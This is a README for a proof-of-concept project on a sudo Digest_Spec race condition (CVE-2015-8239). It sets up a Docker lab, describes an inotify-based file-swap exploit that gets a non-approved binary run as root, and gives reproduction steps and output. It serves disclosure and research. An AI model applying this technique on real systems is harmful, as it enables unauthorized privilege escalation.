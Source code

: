 # sudoers `Digest_Spec` TOCTOU POC

## Rationale

Alyssa Milburn (<https://twitter.com/noopwafel>) discovered a TOCTOU race
condition bug in `sudo` when the `Digest_Spec` setting is used. The
`Digest_Spec` setting can be used to allow a user to `sudo` a binary if and
only if its hash matches a prescribed value. See `man sudoers` and search for
`Digest_Spec` for more information on this feature, and see
<http://noopwafel.net/notes/2015/sudo-digest-race-condition.html> for more info
on the bug discovered by Alyssa. The issue was assigned CVE-2015-8239.

The issue was mitigated by adding documentation to `man sudoers` warning of the
potential of a race condition, and by adding some `fexecve()` magic to `sudo`
to try to prevent certain types of file modifications from being effective.

Interestingly, cve-assign said the following at <https://seclists.org/oss-sec/2015/q4/256>:

```
As far as we know, the Digest_Spec feature can be useful if the user
invoking sudo doesn't have write access to the program file, but a
second (and potentially untrusted) user does have write access to the
program file. In the envisioned scenario, the second user is not
allowed to use sudo, the second user has no way to predict when anyone
else may use sudo, and the second user cannot use their write access
often. Thus, if the second user attempts a file-replacement attack,
the attack will almost certainly occur at an ineffective instant of
time, and the Digest_Spec feature will successfully prevent the
attacker's desired outcome.
```

This POC shows that this statement is not necessarily true, provided that the
"writer" user can execute persistent code on the system. The "writer" user can
leverage `inotify` to detect when the "executor" user is executing the file
using `sudo` and can attempt a file replacement attack at that time.

## About

This project creates a Docker image which:

* Has a file at `/opt/sudoable` which is writable by the `editor` user, and is sudo'able by the `executor` user iff its SHA256 hash matches a particular value
* Has a file at `/opt/hello` (The "good" file whose SHA256 hash is baked into sudoers) and a file at `/opt/goodbye` (An "evil" file)
* Has `/opt` as being writable only by the `root` user (And so the `editor` user can replace the _contents_ of `/opt/sudoable` but cannot do a filesystem-level file swap operation)
* An inotify-based TOCTOU exploit at `/home/editor/exploit/exploit.py`

When `/home/editor/exploit/exploit.py` is executed by the `editor` user,
`inotify` is used to monitor filesystem events. When the `/opt/sudoable` file
is accessed, it is replaced with `/opt/goodbye`. After the file is then closed
it is replaced with `/opt/hello` to leave things in a "normal" state.

Assuming this race succeeds when the `executor` user does `sudo /opt/sudoable`
(Which it does the majority of the time on my machine), the `editor` user can
cause the `executor` user to execute a malicious binary as `root` regardless of
the SHA256 hash being specified as the `Digest_Spec` value within sudoers.

## Building

Run `make all`

## Running

1. Do `./instantiate.sh`
2. Run `tmux new-session` and split the pane (`Ctrl+b` then `"`; use `Ctrl+b` then Up/Down to switch panes)
3. In the top pane, do `sudo -u executor sudo /opt/sudoable` and observe the output `Hello uid=0`
4. In the bottom pane, do `sudo -u editor cp /opt/goodbye /opt/sudoable`
5. In the top pane, do `sudo -u executor sudo /opt/sudoable` and observe that you're asked for a password (i.e. the `sudo` operation failed due to a digest mismatch)
6. In the bottom pane, do `sudo -u editor /home/editor/exploit/exploit.py`
7. In the top pane, do `sudo -u executor sudo /opt/sudoable` a few times and observe the occasional output of `Goodbye uid=0`

## Example output

Top pane:

```
root@c600efec2da8:/# sudo -u executor sudo /opt/sudoable
Hello uid=0
```

Bottom pane:

```
root@c600efec2da8:/# sudo -u editor cp /opt/goodbye /opt/sudoable
```

Top pane:

```
root@c600efec2da8:/# sudo -u executor sudo /opt/sudoable

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for executor:
```

Bottom pane:

```
root@c600efec2da8:/# sudo -u editor /home/editor/exploit/exploit.py
```

Top pane:

```
root@c600efec2da8:/# sudo -u executor sudo /opt/sudoable

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for executor:
root@c600efec2da8:/# sudo -u executor sudo /opt/sudoable
Goodbye uid=0
root@c600efec2da8:/# sudo -u executor sudo /opt/sudoable
Goodbye uid=0
root@c600efec2da8:/# sudo -u executor sudo /opt/sudoable
Goodbye uid=0
root@c600efec2da8:/# sudo -u executor sudo /opt/sudoable
Goodbye uid=0
root@c600efec2da8:/# sudo -u executor sudo /opt/sudoable
Goodbye uid=0
root@c600efec2da8:/# sudo -u executor sudo /opt/sudoable
Goodbye uid=0
root@c600efec2da8:/# sudo -u executor sudo /opt/sudoable
Goodbye uid=0
root@c600efec2da8:/# sudo -u executor sudo /opt/sudoable
Goodbye uid=0
root@c600efec2da8:/# sudo -u executor sudo /opt/sudoable
sudo: unable to execute /opt/sudoable: Text file busy
```

## Further work

In which cases is the `fexecve()` mitigation actually effective? If a user has
write access to the sudoable file but not the directory it is in, they can
modify the file that is opened by `sudo`. If the user has write access to the
directory but not the file, they can move the file out of the way and recreate
it such that they can modify it, and we're back to square one.

## Greetz

Thanks to Luke (<https://twitter.com/lukejahnke>) for telling me about the
`Digest_Spec` setting, bouncing some ideas around and thinking of using
`inotify` for a clean cross-user POC.
